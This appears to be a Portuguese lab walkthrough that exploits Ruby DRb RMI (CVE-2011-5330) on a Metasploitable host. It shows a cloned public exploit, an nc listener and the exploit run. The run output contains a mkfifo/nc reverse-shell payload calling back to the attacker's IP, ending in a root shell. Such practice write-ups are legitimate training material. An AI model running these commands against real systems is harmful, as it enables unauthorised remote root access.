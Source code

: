 # Ruby DRb RMI
`8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)`
## Pesquisa vunerabilidade
Google: `vunerability Ruby DRb RMI (Ruby 1.8)`<br>
Vunerabilidade: `CVE-2011-5330`<br>
Google: `downlad exploit CVE-2011-5330 github`
```
H4R335HR/drbpwn - Ruby script
GitHub
https://github.com › drbpwn
·
Traduzir esta página
This Ruby script provides a workaround for exploiting Distributed Ruby (DRb) vulnerabilities using instance_eval and syscall methods.
```

## Download do exploit
```
$ git clone https://github.com/H4R335HR/drbpwn.git
Cloning into 'drbpwn'...
remote: Enumerating objects: 49, done.
remote: Counting objects: 100% (49/49), done.
remote: Compressing objects: 100% (49/49), done.
remote: Total 49 (delta 23), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (49/49), 16.93 KiB | 1.41 MiB/s, done.
Resolving deltas: 100% (23/23), done.
```
`$ cd drbpwn`
## Abrindo o netcat
Em outro terminal, prepare o listener. Uma vez estabelecida a conexão, teremos acesso a uma shell reversa.
```
nc -lvnp 4444
listening on [any] 4444 ...
```
## rodando o exploit
```
$ ruby drbpwn.rb 192.168.1.33 8787 192.168.1.10
mkfifo /tmp/gythfa; nc 192.168.1.10 4444 0</tmp/gythfa | /bin/sh >/tmp/gythfa 2>&1; rm /tmp/gythfa
Trying to exploit instance_eval
Instance eval failed! trying to exploit syscall
Payload executed from file .CnvTEkQ9Dj1YaPPb
Make sure you are listening on lport
```
## resultado
```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.1.10] from (UNKNOWN) [192.168.1.33] 38065

whoami
root

hostname
metasploitable
```


